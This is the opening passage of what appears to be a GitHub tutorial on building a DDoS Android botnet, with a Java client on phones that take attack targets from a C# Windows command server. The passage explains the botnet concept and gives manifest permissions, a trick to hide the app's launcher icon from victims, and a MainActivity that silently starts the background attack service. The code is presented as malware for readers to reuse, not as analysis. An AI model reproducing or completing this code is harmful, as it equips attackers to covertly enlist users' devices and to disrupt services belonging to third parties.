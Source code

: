 ### <p align="center">DDoS Android Botnet + Android Client / Windows Server - Code</center>

![230750](https://github.com/user-attachments/assets/d6df1dbc-3bba-4afd-b0f4-0e6acab0436d)

> [!NOTE]
> DDoS Botnet is a network of infected devices controlled by an attacker to carry out distributed denial of Service attacks (DDoS — Distributed Denial of Service).
In such a network, every infected computer (or any other device, for example, an Android smartphone, as in our case) becomes part of a botnet and receives commands from the server, receiving the addresses of targets for attack.

We will not do some ordinary HTTP Flood that works through requests, but a full-fledged download of a web resource, in our case through WebView. I will also add another DDoS method solely for example — for example, I will take ping, it is the easiest to implement, but it also borders on useless. In any case, it doesn't matter, as it will be added as a practical example. Later, replacing it with other methods will not be a problem for you if you use the code from the article.

- To write the backend, I will use C# (.NET 4.8) and WPF markup (Windows Presentation Foundation).
- To write the client part, I will use Java (A) and Groovy DSL (build.gradle) with a minimum API of 28 (A9).

I'll start with the Android client code in Java.

First, we need to define permissions in AndroidManifest.xml:

```
<uses-permission android:name="android.permission.INTERNET" />
 <uses-permission android:name="android.permission.ACCESS_NETWORK_STATE" />
 <uses-permission android:name="android.permission.WAKE_LOCK" />
 <uses-permission android:name="android.permission.FOREGROUND_SERVICE" />
 <uses-permission android:name="android.permission.FOREGROUND_SERVICE_DATA_SYNC" />
```

Also, if you want the icon of your application not to be visible, add to the Activity inside AndroidManifest.xml the following:

```
<category android:name="android.intent.category.LEANBACK_LAUNCHER" />
```
Since in MainActivity.if we have nothing but running our FOREGROUND_SERVICE, then its code will look like this:

```
package com.nmz.DDoSBTest;

import android.content.Intent;
import android.os.Bundle;

import androidx.appcompat.app.AppCompatActivity;

public class MainActivity extends AppCompatActivity {


    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
       
        Intent serviceIntent = new Intent(MainActivity.this, BackgroundWVService.class); //Запуск нашего сервиса до которого мы еще дойдем
        startService(serviceIntent);
    }
}
```
